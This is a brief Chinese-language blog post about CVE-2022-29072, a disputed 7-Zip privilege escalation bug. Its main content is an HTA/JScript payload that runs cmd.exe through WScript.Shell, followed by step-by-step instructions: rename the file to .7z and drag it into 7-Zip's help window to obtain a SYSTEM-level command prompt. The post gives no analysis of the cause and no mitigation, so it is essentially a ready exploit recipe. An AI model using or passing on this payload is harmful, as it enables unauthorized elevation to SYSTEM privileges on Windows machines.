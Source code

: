 ﻿---
title: 7-zip权限提升漏洞【CVE-2022-29072】
date: 2025-04-14 10:33:52
tags:
- 权限提升
- 7-zip
- CVE-2022-29072
categories:
  - [漏洞分析]
---
这玩意儿很简单，原理不清楚，不过7-zip官方并不承认这个漏洞，他们说这个洞是微软的锅，不过我看也确实是。
```xml
<html>
<head>
<HTA:APPLICATION ID="7zipcodeexec">
<script language="jscript">
var c = "cmd.exe";
new ActiveXObject('WScript.Shell').Run(c);
</script>
<head>
<html>
```
找个文本文件把上面的内容写进去，然后讲后缀名改为7z。然后讲这个文件拖动到7zip的helper窗口中就会弹出DOS窗口，查看当前权限可以看到为system权限

